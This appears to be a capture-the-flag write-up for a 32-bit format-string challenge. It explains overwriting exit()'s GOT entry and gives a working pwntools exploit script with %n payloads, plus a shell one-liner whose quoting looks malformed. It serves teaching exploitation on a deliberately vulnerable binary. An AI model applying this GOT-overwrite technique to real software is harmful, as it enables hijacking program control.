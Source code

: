 ```

int main(int argc, char **argv)
{
  vuln();
}


//gcc -m32 -o format formatfour.c -fno-stack-protector -g -z execstack -W -no-pie

```

The important thing in this chall is exit() funtion and the same bug in previous chall.
exit() funtion flow :
```
Dump of assembler code for function exit@plt:
   0x08049070 <+0>:     jmp    DWORD PTR ds:0x804c01c
   0x08049076 <+6>:     push   0x20
   0x0804907b <+11>:    jmp    0x8049020

```
Flow is jmp to value in 0x804c01c. after that, push 0x20 to stack and jmp 0x8049020.
That mean we can change value in 0x804c01c , it will be jmp where we wanted. This technology is called Global Offset Table (GOT) Simply put, GOT helps load shared library functions (e.g., exit()) in a dynamically-linked ELF binary. Basically, one can create their program without re-writing popular functions like exit(); instead, they can add pointers to call those functions as that they can be dynamically loaded at the run time.


We used technology write 2 bytes , now we use it again
```
from pwn import *

BIN = "./format"
DEBUG = 1

exit = 0x804c01c
exit1 = exit + 0x2
hello = 0x080491a2


def exploit():

  payload = p32(exit) + p32(exit1) + b"%37274d%4$08n" + b"%30306d%5$08n"
  _breakpoint = """
      b *0x080491fd
  """
  gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
context.log_level='debug'
exploit()




# echo `python2 -c "print '\x1c\xc0\x04\x08\x1e\xc0\x04\x08' + "%4\$hn%5$\n"'` | ./format 
```
